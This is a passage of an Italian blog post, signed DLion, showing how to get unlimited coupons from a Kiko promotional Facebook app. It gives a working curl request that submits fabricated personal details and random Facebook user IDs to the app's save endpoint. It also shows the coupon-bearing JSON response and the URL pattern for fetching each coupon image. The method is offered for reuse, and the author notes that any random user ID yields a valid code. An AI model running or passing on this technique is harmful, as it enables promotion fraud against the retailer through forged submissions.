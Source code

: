 Ricordate com'erano i dati e quali erano ? Non ci resta che inviargli manualmente ciò che l'app si prendeva in automatico
{% highlight sh linenos %}
curl --data "js_nome=NomeFalso&\
            js_cognome=CognomeInventato&\
            js_email=indirizzo_falso%40gmail.com&\
            js_nascita=1992-8-6&\
            js_privacy=1&\
            js_privacy2=1&\
            js_privacy3=1&\
            js_domanda1=verdi&\
            js_domanda2=biondi&\
            js_domanda3=normale&\
            js_domanda4=Risposta_random&\
            js_invio=posta&\
            js_uid=facebookuidrandomico&\
            data=ok"\
            "http://www.fbappdev.com/kikoform/request.php?method=save"
{% endhighlight %}

Come responso riceveremo questo:
{% highlight json linenos %}
{
    "response":"OK",
    "method":"send",
    "error":"",
    "code":"ODMxZTQ1NDFhYjE2ZjBmOGJlNzE4YTcxNGU0NDNlYjEzNzQ1N2E5MA",
    "coupon":
    {
        "online":"35KO1MLNFAN",
        "sale":"4BFBCCCA83009"
    }
}
{% endhighlight %}

E bene sì, **ce l'abbiamo fatta**.   
Il codice è proprio quello all'interno del campo "code" nel responso, ora non ci resta che andare a "montare" l'url cioè: `https://fbappdev.com/kikoform/data/coupon/p_ODMxZTQ1NDFhYjE2ZjBmOGJlNzE4YTcxNGU0NDNlYjEzNzQ1N2E5MA.jpg`

Abbiamo messo *p_* perché nella richiesta abbiamo specificato "posta" altrimenti avremmo dovuto mettere *v_* e se proviamo a raggiungere l'url riceveremo il nostro bel coupon.

Per ricevere tutti i coupon diversi basterà cambiare il Facebook User ID, funzionano anche in maniera randomica, la pagina genererà il codice in base all'uID che invierete.   
Ovviamente il tutto è perfettamente funzionante perché il codice che viene generato è un codice creato con l'algoritmo dell'app stessa e quindi conforme all'evento in questione.

Penso possa bastare, qualsiasi domanda, chiarimento, dubbio, etc. io sono sempre qui.

Saluti, DLion

---

[English Version](//domenicoluciani.com/past/security/programming/2013/04/14/unlimited-kiko-coupon.html)
